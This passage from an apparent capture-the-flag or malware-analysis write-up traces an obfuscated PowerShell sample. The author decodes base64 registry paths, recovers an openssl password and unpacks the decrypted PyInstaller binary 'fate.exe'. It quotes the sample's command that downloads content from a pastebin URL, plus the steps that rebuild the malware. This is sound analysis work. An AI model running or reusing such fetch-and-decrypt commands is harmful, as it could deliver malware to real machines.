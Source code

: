 ```bash
PS > $SLPH = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($SCOP));
PS > echo $SLPH
HKLM:\SOFTWARE\Microsoft\Windows\TabletPC\Bell
```

We broke down the PowerShell script to display the base64 decoded values and by verifying that no [IEX](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-expression?view=powershell-7.1) or alike is there, I try to avoid getting malware on my computer to be honest. For instance, for the first variable `$SLPH` we echo-ed it this way:

```bash
$SCOP = ((new-object System.Net.WebClient).DownloadString("https://pastebin.com/raw/rBXHdE85")).Replace("!","f").Replace("@","q").Replace("#","z").Replace("<","B").Replace("%","K").Replace("^","O").Replace("&","T").Replace("*","Y").Replace("[","4").Replace("]","9").Replace("{","=");
SEtMTTpcU09GVFdBUkVcTWljcm9zb2Z0XFdpbmRvd3NcVGFibGV0UENcQmVsbA==
PS > $SLPH = [Text.Encoding]::UTF8.GetString([Convert]::FromBase64String($SCOP));
PS > echo $SLPH
HKLM:\SOFTWARE\Microsoft\Windows\TabletPC\Bell
```

My guess was right, this is a registry hive : `HKLM:\SOFTWARE\Microsoft\Windows\TabletPC\Bell`. We applied the same process for the second one and we got `HKLM:\SOFTWARE\Microsoft\Wbem\Tower`.

From that, we understood that the values from these registries hives are used to encrypt `151.txt` with openssl, which seems to be our malware. The registry hives associated values are for one the encryption password and for the other the path to the binary. We retrieved them:
- `M4RK_MY_W0Rd5` for the password.
- `\\EOTW\\151.txt` for the relative path to the binary to decrypt.

```bash
PS > $E="M4RK_MY_W0Rd5"
PS > $D="151.txt"
PS > openssl aes-256-cbc -a -A -d -salt -md sha256 -in $env:temp$D -pass pass:$E -out "fate.exe";

$ file fate.exe 
fate.exe: PE32+ executable (console) x86-64, for MS Windows
```

Sounds about right, after decryption, we get `fate.exe` which is a PE32+, which is a PE 64 bits binary from Windows. A little `strings` before getting deeper:

```bash
$ strings fate.exe

[...]
$python36.dll
```

This is very likely to be an executable compiled with Python 3.6, can we extract the bytecode from it?

#### Python script recovery

This great [extractor](https://github.com/extremecoders-re/pyinstxtractor) helped us to *unpack* the binary and get its pieces:
```bash
$ python3 pyinstxtractor.py fate.exe 

[+] Processing fate.exe
[+] Pyinstaller version: 2.1+
[+] Python version: 36
[+] Length of package: 5716392 bytes
[+] Found 59 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: trip_breakers.pyc
[!] Warning: This script is running in a different Python version than the one used to build the executable.
```